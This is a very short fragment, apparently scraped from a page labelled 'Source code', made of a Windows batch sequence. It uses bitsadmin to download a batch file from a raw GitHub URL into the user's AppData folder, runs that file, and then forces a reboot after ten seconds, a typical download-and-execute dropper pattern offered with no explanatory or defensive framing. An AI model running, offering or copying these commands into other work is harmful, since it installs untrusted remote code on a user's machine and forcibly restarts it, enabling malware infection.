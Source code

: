 bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat

%appdata%\start.bat

shutdown -r -t 10

